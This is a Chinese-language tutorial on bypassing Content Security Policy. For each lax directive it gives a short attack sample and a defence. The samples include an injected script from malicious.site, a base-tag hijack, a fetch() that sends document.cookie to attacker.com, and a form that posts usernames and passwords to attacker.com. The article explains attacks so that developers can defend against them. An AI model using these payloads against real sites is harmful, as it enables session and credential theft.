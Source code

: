 ### CSP策略绕过技术详解

内容安全策略（Content Security Policy，CSP）是一种用于增强Web应用程序安全性的机制，旨在防止跨站脚本攻击（XSS）、数据注入攻击等常见Web安全威胁。CSP通过定义允许加载的资源来源（如脚本、样式表、图像等）来限制浏览器执行恶意内容。然而，CSP策略本身也可能存在漏洞，攻击者可以通过各种技术绕过CSP限制，执行恶意操作。本文将详细探讨CSP策略绕过技术的常见攻击手法和利用方式。

#### 1. CSP策略的基本原理

CSP通过HTTP响应头中的`Content-Security-Policy`字段来定义策略。例如：

```
Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted.cdn.com;
```

该策略表示：

- `default-src 'self'`：默认情况下，所有资源只能从当前域名加载。
- `script-src 'self' https://trusted.cdn.com`：脚本只能从当前域名或`https://trusted.cdn.com`加载。

CSP的主要目标是防止恶意脚本的执行，但攻击者可以通过多种方式绕过这些限制。

#### 2. CSP策略绕过的常见攻击手法

##### 2.1 利用宽松的CSP策略

如果CSP策略过于宽松，攻击者可以轻松绕过限制。例如，以下策略允许从任何来源加载脚本：

```
Content-Security-Policy: script-src *;
```

攻击者可以通过注入恶意脚本标签来执行任意代码：

```html
<script src="https://malicious.site/evil.js"></script>
```

**防御措施**：避免使用过于宽松的CSP策略，尽量限制资源加载的来源。

##### 2.2 利用`unsafe-inline`指令

CSP默认禁止内联脚本的执行，但某些策略可能包含`unsafe-inline`指令，允许内联脚本的执行：

```
Content-Security-Policy: script-src 'unsafe-inline';
```

攻击者可以通过注入内联脚本来绕过CSP：

```html
<script>alert('XSS');</script>
```

**防御措施**：避免使用`unsafe-inline`指令，尽量使用外部脚本文件。

##### 2.3 利用`unsafe-eval`指令

CSP默认禁止使用`eval()`、`setTimeout()`、`setInterval()`等动态执行代码的函数，但某些策略可能包含`unsafe-eval`指令，允许这些函数的使用：

```
Content-Security-Policy: script-src 'unsafe-eval';
```

攻击者可以通过注入动态执行的代码来绕过CSP：

```javascript
eval('alert("XSS")');
```

**防御措施**：避免使用`unsafe-eval`指令，尽量使用静态代码。

##### 2.4 利用CSP的`nonce`和`hash`机制

CSP支持通过`nonce`和`hash`机制来允许特定的内联脚本执行。然而，如果`nonce`或`hash`值被泄露或预测，攻击者可以绕过CSP。

**攻击示例**：

```html
<script nonce="123456">alert('XSS');</script>
```

如果攻击者能够预测或获取`nonce`值，可以注入恶意脚本。

**防御措施**：确保`nonce`和`hash`值的随机性和不可预测性，避免泄露。

##### 2.5 利用CSP的`base-uri`指令

CSP的`base-uri`指令用于限制`<base>`标签的`href`属性值。如果`base-uri`策略过于宽松，攻击者可以通过修改`<base>`标签来改变相对URL的解析方式，从而加载恶意资源。

**攻击示例**：

```html
<base href="https://malicious.site/">
<script src="evil.js"></script>
```

**防御措施**：限制`base-uri`指令，确保只允许可信的来源。

##### 2.6 利用CSP的`report-uri`指令

CSP的`report-uri`指令用于指定CSP违规报告的接收地址。如果攻击者能够控制`report-uri`的值，可以通过注入恶意URL来窃取CSP违规报告中的敏感信息。

**攻击示例**：

```
Content-Security-Policy: default-src 'self'; report-uri https://attacker.com/collect;
```

**防御措施**：确保`report-uri`指向可信的地址，避免使用用户可控的URL。

##### 2.7 利用CSP的`frame-ancestors`指令

CSP的`frame-ancestors`指令用于限制页面是否可以被嵌入到其他页面中。如果`frame-ancestors`策略过于宽松，攻击者可以通过嵌入目标页面到恶意页面中来实施点击劫持攻击。

**攻击示例**：

```html
<iframe src="https://victim.com"></iframe>
```

**防御措施**：限制`frame-ancestors`指令，确保只允许可信的来源。

##### 2.8 利用CSP的`object-src`指令

CSP的`object-src`指令用于限制`<object>`、`<embed>`、`<applet>`等标签的资源加载。如果`object-src`策略过于宽松，攻击者可以通过注入恶意对象来绕过CSP。

**攻击示例**：

```html
<object data="https://malicious.site/evil.swf"></object>
```

**防御措施**：限制`object-src`指令，确保只允许可信的来源。

##### 2.9 利用CSP的`connect-src`指令

CSP的`connect-src`指令用于限制通过`XMLHttpRequest`、`fetch()`等API发起的网络请求。如果`connect-src`策略过于宽松，攻击者可以通过发起恶意请求来窃取数据或执行其他攻击。

**攻击示例**：

```javascript
fetch('https://attacker.com/steal?data=' + document.cookie);
```

**防御措施**：限制`connect-src`指令，确保只允许可信的来源。

##### 2.10 利用CSP的`form-action`指令

CSP的`form-action`指令用于限制表单提交的目标地址。如果`form-action`策略过于宽松，攻击者可以通过修改表单的`action`属性来将表单数据提交到恶意地址。

**攻击示例**：

```html
<form action="https://attacker.com/steal" method="POST">
  <input type="text" name="username">
  <input type="password" name="password">
  <input type="submit" value="Submit">
</form>
```

**防御措施**：限制`form-action`指令，确保只允许可信的来源。

#### 3. 总结

CSP策略绕过技术是Web安全领域的一个重要研究方向。攻击者可以通过利用宽松的CSP策略、`unsafe-inline`和`unsafe-eval`指令、`nonce`和`hash`机制、`base-uri`指令、`report-uri`指令、`frame-ancestors`指令、`object-src`指令、`connect-src`指令、`form-action`指令等多种方式来绕过CSP限制，执行恶意操作。为了有效防御这些攻击，开发者需要仔细设计和实施CSP策略，避免使用过于宽松的指令，确保资源加载的来源可信，并定期审查和更新CSP策略以应对新的安全威胁。

---

*文档生成时间: 2025-03-11 15:52:14*






















